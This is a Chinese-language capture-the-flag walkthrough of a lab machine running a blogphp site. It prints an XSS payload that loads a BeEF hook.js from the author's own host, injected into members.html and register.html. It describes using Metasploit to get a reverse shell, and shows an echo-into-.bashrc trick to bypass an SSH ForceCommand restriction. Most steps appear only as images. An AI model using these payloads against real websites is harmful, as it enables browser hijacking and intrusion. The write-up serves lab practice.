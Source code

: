 ![Branching](Pasted image 20241028183124.png)

在blog尝试登录似乎失败了，哎，兔子洞
再回web页面查看有什么信息

![Branching](Pasted image 20241028192341.png)

网站使用的blogphp

![Branching](Pasted image 20241028192452.png)

尝试了本地用户提权，但是就算拿到admin登录blog好像也没什么用

只能尝试xss了

结合主页面给的beef

![Branching](Pasted image 20241028192616.png)

我们使用beef-xss进行利用
查看exp

![Branching](Pasted image 20241028193353.png)

构造payload
~~~
<script src="http://192.168.110.128:3000/hook.js"></script>
~~~

![Branching](Pasted image 20241028195216.png)

访问members.html即可触发

![Branching](Pasted image 20241028201427.png)

可以发现左侧靶机的ip上线

发现了一篇精彩的[文章](https://phreaklets.blogspot.com/2014/04/using-beef-metasploit-to-pop-shell-with.html)，展示了利用msf+beef进行反弹shell
但是这里我的BeEF迟迟收不到上线的消息，所以干脆在register.html中注入我的payload

![Branching](Pasted image 20241029144111.png)

![Branching](Pasted image 20241029144143.png)

收到如图的返回说明session已经建立，用session -i 1 连接（这里的session可能会断，等下一次就好）

![Branching](Pasted image 20241029144332.png)

成功拿到shell，这里要去想一下我们的ssh连接为什么会被关闭

在/etc/ssh/sshd_config文件中发现
~~~
UsePAM yes
AllowUsers peter
ForceCommand /usr/bin/startme
AddressFamily inet
~~~
可以用`echo "exec sh" > ~/.bashrc`绕过
再次连接ssh
